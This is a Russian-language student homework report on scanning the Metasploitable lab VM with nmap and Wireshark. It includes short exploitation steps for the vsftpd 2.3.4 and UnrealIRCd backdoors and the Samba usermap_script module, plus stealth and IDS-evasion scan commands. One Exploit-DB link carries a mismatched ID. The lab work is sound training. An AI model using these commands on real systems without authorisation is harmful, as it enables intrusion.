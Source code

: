 # Домашнее задание к занятию "`Уязвимости и атаки на информационные системы`" - `Барышков Михаил`

## Задание 1

Скачайте и установите виртуальную машину Metasploitable: https://sourceforge.net/projects/metasploitable/.

Это типовая ОС для экспериментов в области информационной безопасности, с которой следует начать при анализе уязвимостей.

Просканируйте эту виртуальную машину, используя **nmap**.

Попробуйте найти уязвимости, которым подвержена эта виртуальная машина.

Сами уязвимости можно поискать на сайте https://www.exploit-db.com/.

Для этого нужно в поиске ввести название сетевой службы, обнаруженной на атакуемой машине, и выбрать подходящие по версии уязвимости.

Ответьте на следующие вопросы:

- Какие сетевые службы в ней разрешены?
- Какие уязвимости были вами обнаружены? (список со ссылками: достаточно трёх уязвимостей)
  
*Приведите ответ в свободной форме.*

---

##  Решение 1

1. **Сетевые службы, разрешенные на виртуальной машине:**

![](img/img1.png)
![](img/img2.png)

В результате сканирования `nmap -sV -A` были обнаружены следующие открытые порты и службы:

- **21/tcp** - FTP (vsftpd 2.3.4) 
  - Анонимный вход разрешен (Anonymous FTP login allowed).
- **22/tcp** - SSH (OpenSSH 4.7p1)
- **23/tcp** - Telnet (Linux telnetd)
- **25/tcp** - SMTP (Postfix)
- **53/tcp** - DNS (ISC BIND 9.4.2)
- **80/tcp** - HTTP (Apache 2.2.8)
- **111/tcp** - RPCbind
- **139/tcp, 445/tcp** - Samba (SMB, версия 3.0.20-Debian)
- **3306/tcp** - MySQL (5.0.51a-3ubuntu5)
- **5900/tcp** - VNC (протокол 3.3)
- **6667/tcp** - IRC (UnrealIRCd 3.2.8.1)

2. **Обнаруженные уязвимости (3 примера):**

     1. **Уязвимость в vsftpd 2.3.4 (Backdoor Command Execution)**

    - **Описание:** В версии vsftpd 2.3.4 присутствует бэкдор, который позволяет злоумышленнику выполнить произвольные команды на сервере.
    - **[Ссылка: Exploit-DB: 17491](https://www.exploit-db.com/exploits/16922)**
    - **Метод эксплуатации:**

        ```sh
        nc <TARGET_IP> 21
        USER anyuser:)  
        PASS anypass  
        ```
    После этого бэкдор открывает порт 6200, через который можно получить shell.

    2. **Уязвимость в UnrealIRCd 3.2.8.1 (Backdoor Command Execution)**

     - **Описание:** В данной версии UnrealIRCd присутствует скрытый бэкдор, добавленный злоумышленниками.
     - **[Ссылка: Exploit-DB: 16922](https://www.exploit-db.com/exploits/16922)**
     - **Метод эксплуатации:**

        ```sh
        nc <TARGET_IP> 6667  
        AB; whoami
        ```
    Сервер выполнит команду whoami и вернет результат.

    3. **Уязвимость в Samba 3.0.20 (Username Map Script Command Execution)**

    - **Описание:** Позволяет выполнить произвольные команды через некорректную обработку параметров в username map script.
    - **[Ссылка: Exploit-DB: 16320](https://www.exploit-db.com/exploits/16320)**
    - **Метод эксплуатации:**

        ```sh
        msfconsole  
        use exploit/multi/samba/usermap_script  
        set RHOSTS <TARGET_IP>  
        exploit
        ```  
    В результате получаем shell с правами root (на Metasploitable).

3. **Дополнительные замечания:**

    - **FTP (vsftpd 2.3.4):** Анонимный вход позволяет загружать/скачивать файлы без аутентификации.
    - **Samba 3.0.20:** Открытый доступ к общим папкам (/tmp).
    - **MySQL 5.0.51a:** Устаревшая версия с известными уязвимостями.
    - **Apache 2.2.8:** Возможны уязвимости типа Directory Traversal или RCE (например, через PHP-скрипты).

**Рекомендации:**

- Обновить все службы до актуальных версий.
- Запретить анонимный доступ к FTP и Samba.
- Отключить ненужные сервисы (Telnet, VNC).

## Задание 2

Проведите сканирование Metasploitable в режимах SYN, FIN, Xmas, UDP.

Запишите сеансы сканирования в Wireshark.

Ответьте на следующие вопросы:

- Чем отличаются эти режимы сканирования с точки зрения сетевого трафика?
- Как отвечает сервер?

*Приведите ответ в свободной форме.*

---

## Решение 2

## Отчет по сканированию Metasploitable различными методами Nmap

### 1. Сравнение режимов сканирования

| Метод       | Флаги TCP | Принцип работы                                                                 | Преимущества                          | Недостатки                          |
|-------------|-----------|-------------------------------------------------------------------------------|---------------------------------------|-------------------------------------|
| **SYN** (-sS) | SYN       | Отправка SYN, анализ ответа (SYN-ACK/RST)                                     | Быстрое, надежное                     | Требует root-прав                  |
| **FIN** (-sF) | FIN       | Отправка FIN, анализ ответа (RST/нет ответа)                                  | Обходит простые файрволы              | Менее надежное                      |
| **Xmas** (-sX)| FIN+PSH+URG | Аналогично FIN, но с дополнительными флагами                                 | Сложнее для детектирования           | Заметнее в сети                     |
| **UDP** (-sU) | UDP       | Отправка UDP-пакета, анализ ICMP-ответа                                       | Обнаруживает UDP-сервисы              | Очень медленное                     |

### 2. Поведение сервера при разных типах сканирования

#### SYN-сканирование

Клиент → Сервер: [SYN]
Сервер → Клиент: [SYN, ACK] (порт открыт)
Клиент → Сервер: [RST] (разрыв)
ИЛИ
Сервер → Клиент: [RST] (порт закрыт)


#### FIN-сканирование

Клиент → Сервер: [FIN]
Сервер → Клиент: [RST] (порт закрыт)
ИЛИ
Нет ответа (порт открыт)


#### Xmas-сканирование

Клиент → Сервер: [FIN, PSH, URG]
Сервер → Клиент: [RST] (порт закрыт)
ИЛИ
Нет ответа (порт открыт)


#### UDP-сканирование

Клиент → Сервер: [UDP-пакет]
Сервер → Клиент: [ICMP Port Unreachable] (порт закрыт)
ИЛИ
Нет ответа (порт открыт)


### 3. Практические наблюдения из Wireshark

- **SYN**: Четкие SYN-SYNACK-RST последовательности для открытых портов
- **FIN/Xmas**: Отсутствие ответа на открытые порты может давать ложные срабатывания
- **UDP**: Длительные паузы между проверками, ICMP-пакеты при закрытых портах

### 4. Рекомендации по использованию

1. **Для быстрого сканирования**: `nmap -sS -T4 <target>`
2. **Для скрытного сканирования**: `nmap -sF --max-retries 1 <target>`
3. **Для UDP-сервисов**: `nmap -sU -p 53,161,123 <target>`
4. **Для обхода IDS**: `nmap -sX --scan-delay 500ms <target>`

> **Примечание**: Все сканирования проводились на изолированной тестовой сети. В production-средах необходимо получать явное разрешение на проведение таких тестов.